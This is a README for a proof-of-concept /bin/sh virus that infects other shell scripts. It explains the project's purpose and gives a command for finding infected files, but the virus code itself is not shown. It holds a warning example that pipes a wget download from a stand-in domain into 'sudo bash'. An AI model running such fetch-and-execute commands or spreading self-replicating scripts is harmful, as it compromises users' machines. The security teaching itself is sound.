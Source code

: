 # shell-virus-poc
Proof-of-Concept /bin/sh virus

!! DO NOT RUN THIS SCRIPT !!

!! FOR EDUCATIONAL USE ONLY !!

## What ##
This is a short one-liner that will search and infect one other /bin/sh-script with itself.

## Why ##
While having a discussion about hardening a Linux server, making it more secure, a question was raised:
````
"Why can't you just remove all commands that will allow you to do something dangerous?"
````
My reply was:
````
"That is basically impossible, you could write a virus with just ls and grep."
````
Turned out I was wrong, you need ed, find, grep and head.

A more serious reason is to show that Linux is not, in any way, immune to viruses or malicious code. While package repositories that comes with your distribution most likely are safe, and the system at school/work where an administrator takes care of your system and you won't be able to do much more harm than to remove your own files, many people have Linux on their laptop/desktop or a Raspberry PI they play around with with root access.

Again, repositories are usually safe but be careful with source-code and scripts you download and NEVER EVER do stupid things like: 

````
wget -O - http://totaly.trustworthy.domain/install_script_not_malicious_winkwink.sh | sudo bash
````

My advice is to check the code you download, if possible. Never mix important data like bitcoin-wallets, personal photos and other important files on the same machine you develop on. Use containers or virtual machines when you want to try something new. And avoid sudo. Yes, I know, everyone says that you should never log in as root and use sudo for tasks that require administrator access. But people are lazy and it leads to dangerous behaviour as in the example above. I prefer opening up a separate root-shell and then not use it, unless I absolutely have to. Instead of using a semi-privileged account that can access everything anyway.

## How do I run it on my Linux server ##
Don't. Run it someone elses server.

Just kidding.

Even it the script should be harmless it is pretty annoying. If you feel a need to test it, setup a virtual machine or container. Do not ever run it on a production machine, not even "Just to see if it works".

## I didn't listen and ran it, why is it so slow ##
It tries to find a writable shell-script that is not infected, starting at /. Unless you are root it will take a while until it finds your $HOME.

## People are angry, what do I do now? ##
Change name, move to another country.

...or, to find infected scripts
````
find / -type f -exec grep -l 'ShVirus' {} \; 2>/dev/null
````
(Simply remove the second line (containing ShVirus) in all those files and you should be ok.)

